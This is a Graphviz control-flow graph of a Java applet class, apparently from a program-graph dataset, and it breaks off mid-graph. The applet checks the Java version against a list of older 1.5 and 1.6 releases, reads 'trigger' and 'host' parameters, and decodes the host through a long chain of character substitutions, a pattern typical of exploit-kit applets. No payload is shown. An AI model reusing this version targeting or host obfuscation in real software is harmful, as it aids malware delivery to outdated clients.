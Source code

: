 digraph "" {
    "r0 := @this: huiak"
    "push \"java.version\""
    "r0 := @this: huiak"->"push \"java.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"trigger\""
    "load.r r0"->"push \"trigger\"";
    "virtualinvoke <huiak: java.lang.String getParameter(java.lang.String)>"
    "push \"trigger\""->"virtualinvoke <huiak: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <huiak: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "load.r r1"
    "store.r r2"->"load.r r1";
    "push \"1.5.0\""
    "load.r r1"->"push \"1.5.0\"";
    "ifcmpeq.r load.r r0"
    "push \"1.5.0\""->"ifcmpeq.r load.r r0";
    "ifcmpeq.r load.r r0"->"load.r r1";
    "push \"1.5.0_01\""
    "load.r r1"->"push \"1.5.0_01\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r0"
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_02\""
    "load.r r1"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_03\""
    "load.r r1"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_04\""
    "load.r r1"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_05\""
    "load.r r1"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_06\""
    "load.r r1"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_07\""
    "load.r r1"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_08\""
    "load.r r1"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_09\""
    "load.r r1"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_10\""
    "load.r r1"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_11\""
    "load.r r1"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_12\""
    "load.r r1"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_13\""
    "load.r r1"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_14\""
    "load.r r1"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_15\""
    "load.r r1"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_16\""
    "load.r r1"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_17\""
    "load.r r1"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_18\""
    "load.r r1"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_19\""
    "load.r r1"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_20\""
    "load.r r1"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_21\""
    "load.r r1"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_22\""
    "load.r r1"->"push \"1.5.0_22\"";
    "push \"1.5.0_22\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_23\""
    "load.r r1"->"push \"1.5.0_23\"";
    "push \"1.5.0_23\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0\""
    "load.r r1"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r load.r r0";
    "ifcmpeq.r load.r r0"->"load.r r1";
    "push \"1.6.0_01\""
    "load.r r1"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_02\""
    "load.r r1"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_03\""
    "load.r r1"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_04\""
    "load.r r1"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_05\""
    "load.r r1"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_06\""
    "load.r r1"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_07\""
    "load.r r1"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_08\""
    "load.r r1"->"push \"1.6.0_08\"";
    "push \"1.6.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_09\""
    "load.r r1"->"push \"1.6.0_09\"";
    "push \"1.6.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_10\""
    "load.r r1"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_11\""
    "load.r r1"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_12\""
    "load.r r1"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_13\""
    "load.r r1"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_14\""
    "load.r r1"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_15\""
    "load.r r1"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_16\""
    "load.r r1"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_17\""
    "load.r r1"->"push \"1.6.0_17\"";
    "push \"1.6.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_18\""
    "load.r r1"->"push \"1.6.0_18\"";
    "push \"1.6.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r2"
    "push -1"->"ifcmpeq.i load.r r2";
    "ifcmpeq.i load.r r2"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 66"
    "push 0"->"push 66";
    "arraywrite.i"
    "push 66"->"arraywrite.i";
    "staticinvoke <huiak: java.lang.String decrypt(int[])>"
    "arraywrite.i"->"staticinvoke <huiak: java.lang.String decrypt(int[])>";
    "staticinvoke <huiak: java.lang.String decrypt(int[])>"->"virtualinvoke <huiak: java.lang.String getParameter(java.lang.String)>";
    "staticput <huiak: java.lang.String host>"
    "virtualinvoke <huiak: java.lang.String getParameter(java.lang.String)>"->"staticput <huiak: java.lang.String host>";
    "new java.lang.StringBuilder"
    "staticput <huiak: java.lang.String host>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "staticget <huiak: java.lang.String host>"
    "dup1.r"->"staticget <huiak: java.lang.String host>";
    "push \"F\""
    "staticget <huiak: java.lang.String host>"->"push \"F\"";
    "push \"a\""
    "push \"F\""->"push \"a\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"a\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"#\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"#\"";
    "push \"b\""
    "push \"#\""->"push \"b\"";
    "push \"b\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"V\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"V\"";
    "push \"c\""
    "push \"V\""->"push \"c\"";
    "push \"c\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"D\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"D\"";
    "push \"d\""
    "push \"D\""->"push \"d\"";
    "push \"d\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"@\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"@\"";
    "push \"e\""
    "push \"@\""->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Y\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Y\"";
    "push \"f\""
    "push \"Y\""->"push \"f\"";
    "push \"f\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"C\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"C\"";
    "push \"g\""
    "push \"C\""->"push \"g\"";
    "push \"g\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"R\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"R\"";
    "push \"h\""
    "push \"R\""->"push \"h\"";
    "push \"h\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \";\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \";\"";
    "push \"i\""
    "push \";\""->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"L\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"L\"";
    "push \"j\""
    "push \"L\""->"push \"j\"";
    "push \"j\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"K\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"-\""
    "push \"K\""->"push \"-\"";
    "push \"-\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"U\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"U\"";
    "push \"k\""
    "push \"U\""->"push \"k\"";
    "push \"k\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"^\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"^\"";
    "push \"l\""
    "push \"^\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Z\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Z\"";
    "push \"m\""
    "push \"Z\""->"push \"m\"";
    "push \"m\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"B\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"B\"";
    "push \"n\""
    "push \"B\""->"push \"n\"";
    "push \"n\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Q\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Q\"";
    "push \"o\""
    "push \"Q\""->"push \"o\"";
    "push \"o\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"=\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"=\"";
    "push \"p\""
    "push \"=\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"&\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"&\"";
    "push \"q\""
    "push \"&\""->"push \"q\"";
    "push \"q\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"M\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"M\"";
    "push \"r\""
    "push \"M\""->"push \"r\"";
    "push \"r\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"G\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"G\"";
    "push \"s\""
    "push \"G\""->"push \"s\"";
    "push \"s\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"S\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"S\"";
    "push \"t\""
    "push \"S\""->"push \"t\"";
    "push \"t\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"!\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"!\"";
    "push \"u\""
    "push \"!\""->"push \"u\"";
    "push \"u\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"W\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"W\"";
    "push \"v\""
    "push \"W\""->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"%\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"%\"";
    "push \"w\""
    "push \"%\""->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"H\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"H\"";
    "push \"x\""
    "push \"H\""->"push \"x\"";
    "push \"x\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"P\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"P\"";
    "push \"y\""
    "push \"P\""->"push \"y\"";
    "push \"y\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"?\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"?\"";
    "push \"z\""
    "push \"?\""->"push \"z\"";
    "push \"z\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"T\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"T\"";
    "push \"/\""
    "push \"T\""->"push \"/\"";
    "push \"/\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"I\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"I\"";
    "push \".\""
    "push \"I\""->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"_\""
    "push \"K\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"(\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"(\"";
    "push \"(\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \",\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \",\"";
    "push \":\""
    "push \",\""->"push \":\"";
    "push \":\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"A\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"A\"";
    "push \"1\""
    "push \"A\""->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"N\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"N\"";
    "push \"2\""
    "push \"N\""->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"*\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"*\"";
    "push \"3\""
    "push \"*\""->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"J\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"J\"";
    "push \"4\""
    "push \"J\""->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \")\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \")\"";
    "push \"5\""
    "push \")\""->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"O\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"O\"";
    "push \"6\""
    "push \"O\""->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"$\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"$\"";
    "push \"7\""
    "push \"$\""->"push \"7\"";
    "push \"7\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"X\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"X\"";
    "push \"8\""
    "push \"X\""->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
